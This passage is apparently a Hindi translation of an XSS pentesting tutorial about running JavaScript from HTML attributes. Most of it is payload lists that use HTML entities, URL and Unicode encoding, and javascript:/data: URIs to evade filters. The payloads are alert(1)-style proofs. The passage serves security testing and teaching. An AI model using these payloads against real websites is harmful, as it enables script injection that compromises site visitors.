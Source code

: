 ### Within the attribute

यहां तक कि अगर आप **attribute से भाग नहीं सकते** (`"` को एन्कोड या हटा दिया गया है), यह इस पर निर्भर करता है कि **आपका मान किस attribute में परिलक्षित हो रहा है** **यदि आप सभी मान को नियंत्रित करते हैं या केवल एक भाग** तो आप इसका दुरुपयोग कर सकेंगे। **उदाहरण के लिए**, यदि आप एक इवेंट को नियंत्रित करते हैं जैसे `onclick=` तो आप इसे क्लिक करने पर मनमाना कोड निष्पादित करने के लिए बना सकेंगे।\
एक और दिलचस्प **उदाहरण** है attribute `href`, जहां आप `javascript:` प्रोटोकॉल का उपयोग करके मनमाना कोड निष्पादित कर सकते हैं: **`href="javascript:alert(1)"`**

**HTML एन्कोडिंग/URL एन्कोड का उपयोग करके इवेंट के अंदर बायपास करें**

HTML टैग के attributes के मान के अंदर **HTML एन्कोडेड कैरेक्टर्स** **रनटाइम पर डिकोड** होते हैं। इसलिए निम्नलिखित कुछ इस तरह मान्य होगा (पेलोड बोल्ड में है): `<a id="author" href="http://none" onclick="var tracker='http://foo?`**`&apos;-alert(1)-&apos;`**`';">Go Back </a>`

ध्यान दें कि **किसी भी प्रकार की HTML एन्कोड मान्य है**:
```javascript
//HTML entities
&apos;-alert(1)-&apos;
//HTML hex without zeros
&#x27-alert(1)-&#x27
//HTML hex with zeros
&#x00027-alert(1)-&#x00027
//HTML dec without zeros
&#39-alert(1)-&#39
//HTML dec with zeros
&#00039-alert(1)-&#00039

<a href="javascript:var a='&apos;-alert(1)-&apos;'">a</a>
<a href="&#106;avascript:alert(2)">a</a>
<a href="jav&#x61script:alert(3)">a</a>
```
**ध्यान दें कि URL एन्कोड भी काम करेगा:**
```python
<a href="https://example.com/lol%22onmouseover=%22prompt(1);%20img.png">Click</a>
```
**यूनिकोड एन्कोड का उपयोग करके इनसाइड इवेंट बायपास करें**
```javascript
//For some reason you can use unicode to encode "alert" but not "(1)"
<img src onerror=\u0061\u006C\u0065\u0072\u0074(1) />
<img src onerror=\u{61}\u{6C}\u{65}\u{72}\u{74}(1) />
```
### विशेष प्रोटोकॉल एट्रिब्यूट के भीतर

यहां आप कुछ स्थानों पर **`javascript:`** या **`data:`** प्रोटोकॉल का उपयोग कर सकते हैं **मनमाने JS कोड** को **निष्पादित** करने के लिए। कुछ को उपयोगकर्ता इंटरैक्शन की आवश्यकता होगी और कुछ को नहीं।
```javascript
javascript:alert(1)
JavaSCript:alert(1)
javascript:%61%6c%65%72%74%28%31%29 //URL encode
javascript&colon;alert(1)
javascript&#x003A;alert(1)
javascript&#58;alert(1)
&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3aalert(1)
java        //Note the new line
script:alert(1)

data:text/html,<script>alert(1)</script>
DaTa:text/html,<script>alert(1)</script>
data:text/html;charset=iso-8859-7,%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
data:text/html;charset=UTF-8,<script>alert(1)</script>
data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
data:text/html;charset=thing;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg
```